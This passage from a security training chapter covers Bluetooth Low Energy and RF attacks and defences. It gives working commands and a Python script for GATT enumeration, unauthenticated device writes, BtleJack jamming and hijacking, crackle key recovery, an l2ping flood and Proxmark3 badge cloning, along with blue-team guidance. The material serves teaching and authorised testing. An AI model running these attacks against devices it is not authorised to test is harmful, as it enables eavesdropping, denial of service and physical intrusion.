[AC:23:3F:AA:BB:CC][LE]> characteristics    # list all characteristics
handle: 0x0002, char properties: 0x0a, char value handle: 0x0003, uuid: 00002a00-...  (Device Name, Read+Write)
handle: 0x000d, char properties: 0x1c, char value handle: 0x000e, uuid: 0000ffe1-...  (vendor, Write+Notify+Indicate)
```

Reading the `char properties` byte is the whole game. It's a bitmask:

- `0x02` = Read
- `0x04` = Write Without Response
- `0x08` = Write
- `0x10` = Notify
- `0x20` = Indicate

So `0x0a` = 0x02 | 0x08 = **Read + Write**. And `0x1c` = 0x04 | 0x08 | 0x10 = **Write Without Response + Write + Notify**. The vendor characteristic `0xffe1` at value handle `0x000e` is writable *and* notifiable — that's the control channel.

### Step 3 — Read everything readable

```
[AC:23:3F:AA:BB:CC][LE]> char-read-hnd 0x0003
Characteristic value/descriptor: 47 6f 76 65 65 5f 42 75 6c 62 5f 31 32 33 34
```

Those hex bytes decode to ASCII "Govee_Bulb_1234" — the device name. On a real target you dump *every* readable handle and decode each; passwords, session tokens, serial numbers, and Wi-Fi credentials for the pairing app have all been found sitting in plaintext readable characteristics.

```bash
# Decode hex to ASCII quickly
echo "476f7665655f42756c625f31323334" | xxd -r -p; echo
# -> Govee_Bulb_1234
```

### Step 4 — Write to control the device (the actual attack)

The bulb's control characteristic is `0x000e`. For Triones/Govee-style bulbs the "set colour" command is a known vendor frame. To set the colour to red, a typical frame is `56 RR GG BB 00 f0 aa` where RR GG BB is the colour:

```
[AC:23:3F:AA:BB:CC][LE]> char-write-req 0x000e 56ff000000f0aa
Characteristic value was written successfully
```

If the bulb turns red, you just controlled a device **without any pairing, authentication, or the vendor app** — purely by writing raw bytes to a characteristic. Turn it off with the vendor's power-off frame:

```
[AC:23:3F:AA:BB:CC][LE]> char-write-req 0x000e cc2433
```

- `char-write-req` — write **with** a response (acknowledged). Use this to confirm the write landed.
- `char-write-cmd` — write **without** response (fire-and-forget, faster, good for fuzzing).

This is the essence of the most common real-world BLE finding: **unauthenticated write to a security-relevant characteristic.** Swap "bulb colour" for "door lock state," "insulin dose," or "alarm armed" and the severity climbs from prank to CVE.

### Step 5 — Subscribe to notifications (leak live data)

Many devices *stream* data (heart rate, sensor readings, the flag in a CTF) via notifications. You enable them by writing `01 00` to the characteristic's **CCCD** descriptor (`0x2902`), which sits one handle above the value:

```
[AC:23:3F:AA:BB:CC][LE]> char-write-req 0x000f 0100
Characteristic value was written successfully
[AC:23:3F:AA:BB:CC][LE]>
Notification handle = 0x000e value: 56 03 01 ...
```

Writing `0100` to the CCCD flips the notify bit on; now the device pushes updates and you receive them live. In a CTF this is frequently how the flag arrives.

### A faster, scriptable path — bleak (Python)

`gatttool` is deprecated and finicky. For real work, script BLE in Python with **bleak** (cross-platform, async):

```python
import asyncio
from bleak import BleakScanner, BleakClient

ADDR = "AC:23:3F:AA:BB:CC"

async def main():
    # 1. Scan and print advertisers with RSSI + service UUIDs
    devices = await BleakScanner.discover(timeout=5.0)
    for d in devices:
        print(d.address, d.rssi, d.name, d.metadata.get("uuids"))

    # 2. Connect and dump the full GATT map
    async with BleakClient(ADDR) as client:
        for service in client.services:
            print(f"[Service] {service.uuid}")
            for char in service.characteristics:
                props = ",".join(char.properties)
                print(f"  [Char] {char.uuid} ({props}) handle={char.handle}")
                if "read" in char.properties:
                    try:
                        val = await client.read_gatt_char(char.uuid)
                        print(f"      value: {val.hex()}  ascii: {val!r}")
                    except Exception as e:
                        print(f"      read failed: {e}")

        # 3. Write the 'set red' command
        await client.write_gatt_char("0000ffe1-0000-1000-8000-00805f9b34fb",
                                     bytes.fromhex("56ff000000f0aa"), response=True)

        # 4. Subscribe to notifications
        def handler(sender, data):
            print(f"NOTIFY {sender}: {data.hex()}")
        await client.start_notify("0000ffe1-0000-1000-8000-00805f9b34fb", handler)
        await asyncio.sleep(10)

asyncio.run(main())
```

Run it:

```bash
pip install bleak
python3 ble_recon.py
```

This single script does discovery, full GATT enumeration, reads every readable characteristic, writes a command, and subscribes to notifications — the complete offensive BLE workflow, reproducible and loggable. Build your engagement tooling on `bleak`, not `gatttool`.

### GUI option — nRF Connect

For a fast, visual pass — especially on a phone in the field — Nordic's **nRF Connect** (Android/iOS/desktop) is the standard. It scans, shows advertising data decoded, lets you connect, browse the GATT tree, and read/write/subscribe with taps. It's the quickest way to triage an unknown device before scripting. **Wireshark with the nRF sniffer plugin** is its companion for capture.

---

## Part 7: Passive Sniffing & MITM — Ubertooth, nRF, and BtleJack

Interacting with GATT needs only a normal adapter. **Capturing someone else's connection off the air** — the pairing exchange, live traffic, the moment a lock opens — needs a real sniffer, because BLE connections hop across 37 data channels and a normal adapter can't follow an existing connection it isn't part of.

### The hardware options

| Device | ~Cost | Does | Notes |
|---|---|---|---|
| **Ubertooth One** | $120 | BR/EDR + BLE follow/sniff | Open-source, the classic Bluetooth research tool |
| **nRF52840 dongle** | $10 | BLE sniff (Nordic sniffer FW) | Cheapest real BLE sniffer; pairs with Wireshark |
| **BtleJack (micro:bit)** | $15 | BLE sniff + **jam + hijack** | 3× micro:bits can follow, jam, and take over connections |
| **Sniffle (TI CC1352)** | $30 | Excellent modern BLE 5 sniffer | Long-range/coded PHY support |
| **HackRF One** | $300 | Full SDR (any protocol, incl. BT) | Flexible but you build the demod yourself |

### Following a connection with BtleJack

`btlejack` (runs on micro:bit hardware) is uniquely capable because it can not just sniff but **hijack**:

```bash
# List existing BLE connections it can hear
btlejack -s
```
```
[i] Enumerating existing connections...
[i] Connection access address 0x9c68fd30 seen, ...
```

```bash
# Follow (sniff) a specific connection by its access address
btlejack -f 0x9c68fd30 -o capture.pcap
```

- `-s` — scan for active connections (their 32-bit **access address** identifies each).
- `-f` — follow a connection, decoding its ATT traffic.
- `-o` — write to a pcap for Wireshark.
- `-j` — jam a connection (force a disconnect — then you catch the *re-pairing*, which is often weaker).
- `-t` — **hijack**: kick out the legitimate central and take over the connection to the peripheral.

The `-j` then re-capture trick is the offensive heart of BLE: **jam an encrypted connection so the devices re-pair, capture the re-pairing (often LE Legacy), and crack the key with `crackle`.**

### Cracking captured Legacy pairing with crackle

```bash
# Given a pcap containing an LE Legacy pairing, recover keys and decrypt
crackle -i capture.pcap -o decrypted.pcap
```

`crackle` exploits the weak Temporary Key of LE Legacy pairing (for Just Works, TK=0; for Passkey, only 10^6 values). It recovers the **Short-Term Key**, then the **Long-Term Key**, then decrypts the whole capture into `decrypted.pcap` — which you open in Wireshark and read in cleartext. This does *not* work against **LE Secure Connections** (ECDH); the presence of LESC is what defeats this whole attack chain, which is exactly why it's the #1 defensive recommendation.



### Ubertooth workflow

```bash
# Basic BLE sniff to stdout
ubertooth-btle -f
# Pipe into Wireshark via a named pipe / pcap
ubertooth-btle -f -c /tmp/pipe
```

- `-f` — follow connections (after seeing the CONNECT_IND).
- `-c` — capture to a pcap file.
- `-p` — promiscuous mode: try to follow already-established connections by guessing hop parameters.

Ubertooth's limitation is that BLE 5's extended/coded PHY and channel-selection algorithm #2 are hard for it; for modern BLE 5 devices, **Sniffle on a CC1352** is the better sniffer.

> **Blue-team note.** Passive BLE sniffing leaves *no trace* on your network — there is no log of someone capturing advertisements or following a connection. Detection has to be physical/spectral: RF monitoring for anomalous jammers (a device flooding a channel to force re-pairing shows up as a noise spike), and Bluetooth-aware wireless IDS in sensitive areas. Realistically, defence is *prevention*: mandate LE Secure Connections, require authenticated pairing for any sensitive characteristic, and don't put secrets in readable characteristics — because you cannot detect the sniff, only make it useless.

---

## Part 8: Classic Bluetooth Attacks — the Legacy Zoo

BLE gets the headlines, but Classic BR/EDR still runs in every car, headset, and speaker, and its old attacks resurface on legacy gear and IoT.

### The classic name-attacks (mostly historical, still testable)

- **Bluesnarfing** — unauthorised reading of data (contacts, calendar, messages) from a device via OBEX Push/Pull flaws. Devastating on 2000s phones; largely fixed, but appears on ancient embedded gear.
- **Bluebugging** — going further: issuing AT commands over a rogue RFCOMM channel to make calls, send texts, read messages. Historical but conceptually important (it's "RCE via the modem interface").
- **Bluejacking** — sending unsolicited messages via the pairing name field. Harmless prank, but the *name/OBEX field* is an injection surface.
- **BlueSmack** — an L2CAP ping flood (oversized `l2ping`) that crashes devices — a Bluetooth ping-of-death:

```bash
# L2CAP echo flood (DoS) — authorised targets only
l2ping -s 600 -f AC:23:3F:AA:BB:CC
```

- `-s 600` — packet size 600 bytes (oversized).
- `-f` — flood (no delay between pings).

### KNOB in practice

The **KNOB** attack (Key Negotiation of Bluetooth) is the most important modern Classic bug. During connection setup, the two devices negotiate the encryption key's entropy (1–16 bytes). The spec allowed a floor of **1 byte**. An attacker in the middle rewrites the negotiation so both sides agree on a 1-byte key, then brute-forces 256 possibilities instantly and decrypts. It works because the entropy negotiation itself wasn't authenticated. Patched devices now enforce a minimum of 7 bytes; unpatched legacy gear remains vulnerable. You can't easily do KNOB with stock tools — it needs a modified Bluetooth firmware (the researchers used a patched Cypress/Broadcom stack) — but you must be able to *explain* it, because it's the canonical "the negotiation was unauthenticated" lesson.

### RFCOMM enumeration

If SDP reveals a Serial Port / RFCOMM service, you can bind it as a serial device:

```bash
sudo rfcomm connect /dev/rfcomm0 AC:23:3F:AA:BB:CC 1
# then interact with /dev/rfcomm0 like any serial line
sudo screen /dev/rfcomm0 115200
```

- `connect /dev/rfcomm0 <addr> 1` — bind RFCOMM channel 1 of the target to a local serial device.

Many IoT and industrial devices expose an unauthenticated command shell or AT interface over RFCOMM. That's a direct foothold — treat any open RFCOMM channel like an open telnet port.

---

## Part 9: The Wider RF Attack Surface — SDR, Sub-GHz, RFID/NFC, Zigbee

Bluetooth is one branch of the mindmap from Part 1. A complete wireless assessment touches the rest. This part gives you the working model and the entry tooling for each; each could be its own chapter.

### Software-Defined Radio (SDR) — the universal receiver

An **SDR** is a radio whose demodulation is done in software instead of fixed hardware, so *one device can receive (and sometimes transmit) almost any protocol* by changing code. This is the master key of RF hacking.

- **RTL-SDR** (~$30): receive-only, ~24 MHz–1.7 GHz. The cheap gateway drug — perfect for listening to 433 MHz remotes, pagers, ADS-B aircraft, TPMS.
- **HackRF One** (~$300): transmit *and* receive, 1 MHz–6 GHz. Can replay and forge (within legal limits).
- **LimeSDR / USRP / BladeRF**: higher-end, full-duplex, wider bandwidth.

The core workflow tool is **GNU Radio** (a visual dataflow "GNU Radio Companion" where you wire up demodulation blocks) plus **`gqrx`** / **`SDR#`** for spectrum visualisation and **`rtl_433`** for auto-decoding hundreds of known ISM devices.

```bash
# Auto-decode 433 MHz sensors, weather stations, TPMS, doorbells
rtl_433 -f 433.92M
```
```
2024-... : Acurite-Tower  Id:1234  Temp: 21.3 C  Humidity: 48 %
2024-... : TPMS  Toyota  Id:00abcd12  Pressure: 32.0 PSI
```

`rtl_433` is astonishing on a first run — walk down a street and it decodes neighbours' weather stations, tyre-pressure sensors, and doorbells. For pentest scope, it inventories a facility's sensor estate passively.

### Sub-GHz replay — the garage-door / fob problem

Cheap remotes (garage doors, some alarms, older car fobs) transmit a **fixed code** with OOK modulation. Capture once, replay forever:



The critical distinction: **fixed code** devices are trivially replayable; **rolling code** (KeeLoq, HiTag) devices change the code each press, defeating naive replay. The famous **RollJam** attack defeats *some* rolling-code systems by jamming the receiver while capturing two presses, then replaying the first while holding the second. Modern car makers have largely fixed this; cheap gates and alarms often haven't. The **Flipper Zero** popularised sub-GHz capture/replay in a pocket device (and is why many venues now ban it) — but it deliberately blocks rolling-code replay of car fobs.

### RFID / NFC

Two worlds by frequency:

- **Low-frequency 125 kHz** (EM4100, HID Prox): old building-access badges. **No crypto** on the cheapest — they just broadcast a fixed ID. Clone with a **Proxmark3** in seconds. This is still shockingly common in physical pentests.
- **High-frequency 13.56 MHz** (MIFARE Classic, DESFire, NFC): MIFARE Classic's Crypto-1 cipher is broken (`mfcuk`/`mfoc` recover keys); DESFire EV2/EV3 are strong.

```bash
# Proxmark3 — read an LF card, then clone to a writable T5577
[usb] pm3 --> lf search
[usb] pm3 --> lf hid read
[usb] pm3 --> lf hid clone -r 2006ec0c86
```

Cloning a 125 kHz badge you photographed at reception distance is a bread-and-butter physical red-team move. NFC on phones (payment, transit, access) is a richer, better-defended target.

### Zigbee & Z-Wave — the IoT mesh

- **Zigbee** (802.15.4, 2.4 GHz): smart-home mesh (bulbs, sensors, hubs). The classic weakness is the **network key exchanged in cleartext during device joining** — capture a device pairing and you have the mesh key. Tool: **KillerBee** (`zbstumbler`, `zbdump`, `zbreplay`) with an **ApiMote** or Atmel RZUSBstick.
- **Z-Wave** (sub-GHz, ~908 MHz US): similar mesh; older "S0" security had a hardcoded temporary key (all zeros) during inclusion; "S2" fixed it with ECDH. Tool: **Scapy-radio / EZ-Wave** with a HackRF.

```bash
# KillerBee: find Zigbee networks
zbstumbler -i /dev/ttyUSB0
# Capture Zigbee traffic to pcap
zbdump -i /dev/ttyUSB0 -w zigbee.pcap
```

> **Bug-bounty reality check.** Pure RF (sub-GHz, Zigbee, RFID) is largely *out of scope* for web/mobile bounty programs — they don't want reports about your neighbour's garage door. Where RF *does* pay is IoT programs and hardware bounties (some vendors run them) and, more commonly, as a *pivot* documented in a physical/red-team engagement report. BLE is the exception: BLE bugs in a company's *app-controlled product* (a lock, a scooter, a payment terminal) are in scope for many IoT bounties and mobile programs, because the phone app + BLE peripheral are one system. Frame BLE findings around the product's app, and you're inside scope.

---

## Part 10: Detection & Defence — the Blue-Team Consolidated View

Radio attacks are hard to detect because listening is silent and the medium is shared. Defence is therefore mostly *prevention plus physical-layer monitoring*. Organised by layer:

### For BLE product/device makers

- **Mandate LE Secure Connections (Bluetooth 4.2+).** ECDH pairing defeats `crackle`, sniffed-pairing key recovery, and passive decryption. This single control neutralises most of Part 7.
- **Require authentication for every sensitive characteristic.** Never ship a `Write`-able unlock/config characteristic reachable without an authenticated, encrypted link. Enforce it *in firmware*, not by hoping clients behave.
- **Put no secrets in readable characteristics.** Assume everything readable is public.
- **Use application-layer crypto on top of BLE.** Even with LESC, sign/encrypt commands at the app protocol level so a hijacked link (BtleJack `-t`) can't issue valid commands. Include nonces/counters to stop replay.
- **Rotate addresses (RPA) and don't leak identity in advertising data.** Names and manufacturer data enable tracking even when the MAC rotates — the *content* betrays you.
- **Patch the SoC stack.** SweynTooth/BrakTooth are firmware bugs; keep the BLE chip's firmware current.

### For enterprises deploying wireless

- **Bluetooth hygiene policy:** disable Bluetooth on endpoints where it isn't needed (kills BlueBorne-class "radio on = reachable" exposure); disallow discoverable mode.
- **Physical/spectral monitoring in sensitive areas:** a Bluetooth-aware wireless IDS, or even periodic `btmon`/`kismet` sweeps, catches rogue peripherals (a planted keystroke-injection dongle advertises as an HID) and jammers (a re-pairing-forcing jammer shows as a channel-38 noise spike).
- **Access-control upgrades:** retire 125 kHz LF badges (clone in seconds) for DESFire EV2/EV3 or mobile credentials. This alone shuts down the most reliable physical red-team entry.
- **Asset inventory of RF emitters:** know what advertises in your building. Run `rtl_433`, `bluetoothctl scan`, and `zbstumbler` sweeps and baseline them; new emitters are worth investigating.

### Detection signals summary

| Attack | Detectable? | Signal |
|---|---|---|
| BLE passive sniff | No (silent) | None on the wire — prevent instead |
| BLE jam→re-pair | Partially | RF noise spike on adv channel; unexpected client re-pairing |
| Rogue HID (keystroke injection) | Yes | New HID device advertising / enumerating on a host |
| Sub-GHz replay | Rarely | Duplicate codes if the receiver logs; usually none |
| RFID clone | No | Legit-looking badge read; mitigate with crypto cards |
| Zigbee key sniff | No | Silent; mitigate with install-code / out-of-band keying |

The honest summary: **you mostly cannot detect RF eavesdropping; you defeat it by making the captured data useless (strong crypto) and by physically controlling who can get an antenna close.**

---

## Part 11: Common Pitfalls & Gotchas

- **"No scan results" ≠ "no devices."** Non-discoverable Classic devices and non-advertising BLE peripherals are invisible to a basic scan but still attackable if you learn their address (sniff a connection, or find it in the vendor app).
- **Rotating BLE addresses break your notes.** The bulb you enumerated as `AC:23:...` may show a new random address in 15 minutes. Track devices by advertised name/service UUIDs/manufacturer data, not just MAC.
- **`gatttool` is deprecated and flaky.** Connection failures are often the tool, not the target. Move to `bleak` or `bluetoothctl`'s `menu gatt` for reliability. If connects fail, `sudo systemctl restart bluetooth` and `sudo hciconfig hci0 reset`.
- **You cannot sniff an existing BLE connection with a normal adapter.** GATT interaction (you are the client) works on any adapter; passive capture of *someone else's* connection needs Ubertooth/nRF/Sniffle. Beginners conflate these constantly.
- **`crackle` only breaks LE Legacy.** Against LE Secure Connections it does nothing — don't waste an engagement trying.
- **Two adapters fight over one connection.** Running `bluetoothctl` and a Python `bleak` script against the same device simultaneously causes mysterious disconnects. Use one controller at a time.
- **Legal lines are bright and sharp in RF.** Transmitting (replay, jamming, evil BLE) can violate FCC/Ofcom rules independently of any computer-crime law. *Receiving* is generally fine; *transmitting* on someone else's system is not. Sub-GHz jamming in particular is a serious offence.
- **BLE 5 defeats old sniffers.** Extended advertising and coded PHY on modern devices need Sniffle/CC1352; an old Ubertooth may silently miss them and you'll think the device "isn't advertising."
- **Endianness bites.** BD_ADDRs and UUIDs are little-endian on the wire but displayed big-endian. When you read raw captures, bytes look reversed — expected, not a bug.

---

## Part 12: Final Revision Recap

- **Radio basics:** frequency/band/channel; dBm is logarithmic (+3 dB ≈ 2×, +10 dB ≈ 10×); RSSI is negative and closer = stronger; modulation (Bluetooth/BLE use **GFSK**) must be known to decode.
- **Two Bluetooths:** **Classic (BR/EDR)** for audio/serial (79 ch, profiles/SDP), **BLE** for smart gadgets (40 ch, 3 advertising channels 37/38/39, **GATT** data model). Not link-layer interoperable.
- **BlueZ toolkit:** `hciconfig` (adapter up/down), `bluetoothctl scan on` (unified discovery), `sdptool browse` (Classic services), `btmon` (live HCI decode).
- **BLE model:** advertising → connect → **GATT** (Services → Characteristics → Descriptors) at 16-bit **handles**; property bitmask (`0x02` Read, `0x08` Write, `0x10` Notify…). The killer bug: **unauthenticated Write to a sensitive characteristic.**
- **Pairing:** Just Works (TK=0, weak), Passkey (weak in Legacy), Numeric Comparison (LESC/ECDH, strong). **LE Legacy is crackable; LE Secure Connections is not.**
- **Named breaks:** BlueBorne (no-interaction RCE), **KNOB** (1-byte key negotiation), BIAS (impersonation), BLESA (reconnection spoof), SweynTooth/BrakTooth (SoC parsing bugs).
- **Sniffing/MITM:** GATT talk = any adapter; **capturing others' connections = Ubertooth/nRF/Sniffle/BtleJack**. `btlejack -j` forces re-pairing → capture → `crackle` recovers the LTK → decrypt. LESC defeats this whole chain.
- **Wider RF:** **SDR** (RTL-SDR receive, HackRF TX/RX) + GNU Radio + `rtl_433`; fixed-code sub-GHz replays trivially, rolling-code needs RollJam; **125 kHz RFID clones in seconds** (Proxmark3); Zigbee leaks its network key at join; Z-Wave S0 was all-zeros, S2 fixed it.
- **Defence:** mandate LESC, authenticate every sensitive characteristic, app-layer crypto with nonces, no secrets in readable characteristics, retire LF badges, Bluetooth hygiene, spectral monitoring. **You can't detect the sniff — make it useless.**

---

## Part 13: Cheat Sheet

```bash
# --- Adapter (BlueZ) ---
hciconfig -a                       # list adapters + status
sudo hciconfig hci0 up             # enable radio
sudo hciconfig hci0 reset          # reset a wedged adapter
sudo systemctl restart bluetooth   # restart the stack when things hang

# --- Discovery ---
hcitool scan                       # Classic inquiry (discoverable only)
sudo hcitool lescan --duplicates   # BLE active scan, show repeats
sudo hcitool lescan --passive      # BLE passive scan (silent)
bluetoothctl                       # interactive: power on; scan on; devices; info <addr>
sudo btmon                         # live HCI decode (the Bluetooth Wireshark)

# --- Classic service enum ---
sdptool browse <addr>              # list profiles/services (Classic "port scan")
hcitool info <addr>                # remote features + LMP version
sudo rfcomm connect /dev/rfcomm0 <addr> 1   # bind RFCOMM channel -> serial

# --- BLE GATT (gatttool) ---
gatttool -b <addr> -I              # interactive
#   connect / primary / characteristics / char-desc
#   char-read-hnd 0x000e
#   char-write-req 0x000e <hex>    # write with response
#   char-write-cmd 0x000e <hex>    # write no response (fuzz)
#   write 0100 to CCCD (value handle+1) to enable notify

# --- BLE (bleak, Python) ---
# BleakScanner.discover(); BleakClient(addr); read_gatt_char / write_gatt_char / start_notify

# --- Sniff / MITM ---
btlejack -s                        # list active connections
btlejack -f 0x<access_addr> -o cap.pcap   # follow -> pcap
btlejack -j 0x<access_addr>        # jam -> forces re-pair (then capture)
btlejack -t 0x<access_addr>        # hijack the connection
ubertooth-btle -f -c cap.pcap      # Ubertooth follow -> pcap
crackle -i cap.pcap -o dec.pcap    # crack LE Legacy pairing -> decrypt

# --- Classic attacks ---
l2ping -s 600 -f <addr>            # BlueSmack L2CAP flood (DoS)

# --- Wider RF ---
rtl_433 -f 433.92M                 # auto-decode ISM sensors/TPMS/remotes
gqrx                               # SDR spectrum viewer
# Proxmark3: lf search / lf hid read / lf hid clone -r <id>
# KillerBee: zbstumbler -i /dev/ttyUSB0 ; zbdump -w z.pcap
```

**Characteristic property bitmask:** `0x02` Read · `0x04` WriteNoResp · `0x08` Write · `0x10` Notify · `0x20` Indicate (OR them: `0x1c` = WriteNoResp+Write+Notify).

**Key standard BLE UUIDs:** `0x1800` Generic Access · `0x1801` Generic Attribute · `0x180F` Battery · `0x180A` Device Info · `0x2A00` Device Name · `0x2A19` Battery Level · `0x2902` CCCD (notify switch).

---

## Part 14: Practice Labs & Resources

Train *this* chapter's skills specifically:

- **TryHackMe — "Bluetooth Low Energy" / "Intro to IoT" rooms**: guided GATT enumeration and characteristic read/write against emulated peripherals — the exact `gatttool`/`bleak` workflow from Part 6.
- **Build your own target:** flash a **Raspberry Pi Pico W** or **nRF52840 dev kit** with a sample BLE peripheral (Nordic's SDK examples, or `bluez` `btgatt-server`), then enumerate and attack it. Cheapest, most instructive lab possible — you control both ends.
- **nRF Connect (Nordic)**: use the mobile/desktop app as *both* a scanner (attack a real bulb/band you own) *and* a peripheral emulator (create a custom GATT server, then attack it from a second device). Free.
- **BLE CTF (ESP32):** the open-source **BLE CTF** firmware (by Ryan Holeman) for the ESP32 is purpose-built: 20+ flags, each teaching one BLE skill (read, write, notify, MITM). Flash an **ESP32** (~$8) and work every flag — it maps almost 1:1 onto Part 6.
- **Bluetooth CTF captures:** practice on BLE `.pcap`/`.hcidump` files from past CTFs (search "BLE CTF pcap") — open in **Wireshark** and reconstruct the GATT exchange / find the flag in a characteristic.
- **crackle sample captures:** the `crackle` repo ships example LE Legacy pairing pcaps — run `crackle -i` on them to see key recovery and decryption end-to-end without any hardware.
- **SDR / sub-GHz:** get an **RTL-SDR** (~$30), run `rtl_433 -f 433.92M`, and inventory your own neighbourhood's sensors and TPMS (receive-only, legal). For hands-on GNU Radio, the `gr-tutorial` flowgraphs teach OOK demodulation of a remote you own.
- **RFID:** a **Proxmark3 Easy** (~$60) plus a blank **T5577** card lets you legally clone your *own* 125 kHz badge and understand why LF access control must be retired.

Suggested progression: BLE CTF (ESP32) for GATT fluency → crackle sample pcaps for the crypto story → a real bulb/band with `bleak` for live workflow → RTL-SDR `rtl_433` for the wider spectrum → Proxmark3 for physical-access reality. Everything above uses gear you own and spectrum you're allowed to touch — keep it that way.

### Practice questions

1. A BLE characteristic reports `char properties: 0x1a`. Which operations are permitted, and which single property makes it the most likely *control* channel for an attacker?
2. You capture an encrypted BLE connection but `crackle` recovers nothing. Give the most likely reason and what it implies about the device's pairing configuration.
3. Explain, in one or two sentences each, how **KNOB** and **BLESA** differ in *what* they attack (the negotiation vs. the reconnection) and why each was possible.
4. You need to sniff the *pairing* exchange of two devices that are already bonded and connected. Outline the tool sequence to force and capture a fresh pairing, and name the property of LE Secure Connections that would make the whole approach fail.
5. During a physical engagement you photograph an employee's building badge at close range and read it as a 125 kHz HID Prox card. Describe the clone workflow and the single control the client should adopt to make this attack infeasible.

This closes the Wireless notebook's coverage of non-Wi-Fi radio. The next chapter moves into the following notebook's track — carry forward the core instinct this chapter builds: *every antenna is an interface, and most of them were never designed to be attacked.*
